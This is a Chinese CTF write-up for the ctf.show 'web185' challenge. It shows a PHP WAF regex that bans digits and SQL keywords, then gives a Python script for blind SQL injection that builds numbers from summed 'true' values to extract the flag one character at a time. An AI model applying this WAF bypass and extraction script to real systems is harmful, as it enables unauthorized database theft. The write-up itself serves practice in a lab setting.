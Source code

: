 

#### web185

```
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/\*|\x09|\x0a|\x0b|\x0c|\0x0d|\xa0|\x00|\#|\x23|[0-9]|file|\=|or|\x7c|select|and|flag|into|where|\x26|\'|\"|union|\`|sleep|benchmark/i', $str);
  }
```

这题把数字ban掉了

这其实就导致了我们在构造payload的时候没办法直接使用数字

但是我们可以用true来代替构造出数字

我们知道true = 1

那2就可以用true+true来表示，以此类推

```python
import requests
url = "http://33578c7b-f34a-422b-87a5-a8accac68645.challenge.ctf.show/select-waf.php"
flag = ''


def createNum(n):
    num = 'true'
    if n == 1:
        return 'true'
    else:
        for i in range(n - 1):
            num += "+true"
    return num


for i in range(45):
    if i <= 5:
        continue
    for j in range(127):
        data = {
            "tableName": f"ctfshow_user as a right join ctfshow_user as b on (substr(b.pass,{createNum(i)},{createNum(1)})regexp(char({createNum(j)})))"
        }
        r = requests.post(url, data=data)
        if r.text.find("$user_count = 43;") > 0:
            if chr(j) != ".":
                flag += chr(j)

                print("[*]result is:"+flag.lower())
                if chr(j) == "}":
                    exit(0)
                break

```
